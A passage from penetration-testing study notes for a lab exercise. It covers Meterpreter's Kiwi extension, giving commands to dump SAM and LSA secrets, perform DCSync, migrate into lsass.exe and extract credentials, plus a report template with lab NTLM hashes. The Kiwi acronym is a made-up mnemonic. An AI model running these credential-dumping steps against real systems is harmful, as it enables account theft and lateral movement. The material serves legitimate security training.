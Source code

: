 #### **Database Dumps:**
```bash
lsa_dump_sam                              # Local Security Authority SAM
lsa_dump_secrets                          # LSA secret information
dcsync                                    # Domain controller synchronization
```

#### **System Information:**
```bash
sysinfo                                   # Target system details
getpid                                    # Current process ID
ps                                        # List running processes
```

### **Memory Tricks:**

#### **Easy Ways to Remember:**
- **Kiwi** = **K**redential **I**nformation **W**indows **I**ntelligence
- **LSA** = **L**ocal **S**ecurity **A**uthority
- **SAM** = **S**ecurity **A**ccount **M**anager
- **MSV** = **M**icrosoft Authentication Package **V**1
- **NTLM** = **N**ew **T**echnology **L**AN **M**anager

#### **Command Pattern:**
```bash
# Remember: MIGRATE → LOAD → EXTRACT
migrate -N lsass.exe     # Move to secure process
load kiwi               # Import functionality
creds_all               # Extract credentials
```

---

## 📝 Professional Reporting Templates

### **Quick Report Template:**
```markdown
## Credential Extraction Report

**Target System:** demo.ine.local (10.0.30.225)
**Date/Time:** 2024-07-09 12:12:45 IST
**Tester:** [your_name]
**Extraction Method:** Kiwi Extension via Meterpreter

### Discovery Results:
**Operating System:** Windows Server 2016+ (Build 14393)
**Architecture:** x64
**Privilege Level:** NT AUTHORITY\SYSTEM
**Kiwi Status:** Successfully loaded and functional

### Credentials Extracted:
| Username | Domain | NTLM Hash | RID | Account Type |
|----------|--------|-----------|-----|--------------|
| Administrator | ATTACKDEFENSE | e3c61a68f1b89ee6c8ba9507378dc88d | 500 | Local Admin |
| student | ATTACKDEFENSE | bd4ca1fbe028f3c5066467a7f6a73b0b | 1008 | Standard User |

### System Information:
- **SysKey:** 377af0de68bdc918d22c57a263d38326
- **Domain:** ATTACKDEFENSE (Workgroup)
- **Local SID:** S-1-5-21-3688751335-3073641799-161370460

### Commands Used:
1. `migrate -N lsass.exe` - Process migration
2. `load kiwi` - Extension loading
```